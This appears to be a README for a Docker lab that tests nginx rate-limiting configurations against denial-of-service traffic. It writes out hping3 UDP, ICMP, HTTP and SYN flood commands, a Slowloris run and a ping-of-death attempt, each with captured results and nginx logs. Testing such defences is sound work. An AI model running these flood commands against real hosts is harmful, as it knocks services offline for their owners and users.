 # DDosBlock 

## Prepare
Change nginx conf file in docker-compose.yml and see DDos attacks and nginx blocks results:  
From: nginx_0.conf 
To:  
    - nginx_1.conf - limit request per second from one IP 
    - nginx_2.conf - limit sessions quantity from one IP 
    - nginx_3.conf - limit swnd data time 
    - nginx_4.conf - limit upstream connections 

## Run
Run every time for rebuild and restart containers
```
docker-compose down
docker-compose build
docker-compose up
```

## UDP Flood 
`
hping3 --udp -i u100  www.condelnet.com -p 80
`

Result:
```
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=63120 seq=127209
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=3611 seq=133236
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=10108 seq=139733
ICMP Port Unreachable from name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=16206 seq=145831
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=22227 seq=151852
--- www.condelnet.com hping statistic ---
152908 packets transmitted, 30 packets received, 100% packet loss
round-trip min/avg/max = 0.9/5.7/8.9 ms
```

## ICMP flood 
`
hping3 -1 -i u100  www.condelnet.com -p 80
`

Result:
```
len=28 ip=192.168.56.4 ttl=64 id=5901 icmp_seq=53451 rtt=5.4 ms
len=28 ip=192.168.56.4 ttl=64 id=5914 icmp_seq=53452 rtt=5.3 ms
len=28 ip=192.168.56.4 ttl=64 id=5929 icmp_seq=53453 rtt=5.2 ms
--- www.condelnet.com hping statistic ---
53554 packets transmitted, 53454 packets received, 1% packet loss
round-trip min/avg/max = 1.6/18.9/1017.3 ms
```

## HTTP flood 
`
hping3 -i u100  www.condelnet.com
`

Result:
```
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88398 win=0 rtt=4.8 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88399 win=0 rtt=4.7 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88400 win=0 rtt=5.0 ms
--- www.condelnet.com hping statistic ---
88464 packets transmitted, 88401 packets received, 1% packet loss
round-trip min/avg/max = 1.2/18.7/1030.9 ms
```

## Slowloris 
```
pip install Slowloris
slowloris localhost -s 250 -ua
```

Result:
```
nginx_1      | 2022/10/27 23:10:53 [warn] 33#33: 50 worker_connections are not enough, reusing connections

nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?517 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Safari/602.1.50" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?995 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?1896 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Edge/14.14393Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?904 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
```



nginx_1.conf
Result:
503 Service Temporarily Unavailable 
nginx/1.21.6 
```
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 2022/10/28 13:33:23 [error] 37#37: *251 limiting requests, excess: 0.584 by zone "one", client: 192.168.56.1, server: localhost, request: "GET / HTTP/1.1", host: "localhost"
```



## SYN flood 
`
hping3 -S -q -n -i u100  www.condelnet.com -p 80
`

Result:
```
HPING www.condelnet.com (eth0 192.168.56.4): S set, 40 headers + 0 data bytes
--- www.condelnet.com hping statistic ---
728994 packets transmitted, 728954 packets received, 1% packet loss
round-trip min/avg/max = 0.6/10.4/1014.0 ms
```

## Ping of Death 
`
ping -l 65509 www.condelnet.com
`

Result:
```
ping: cannot set preload to value greater than 3: 65509
```
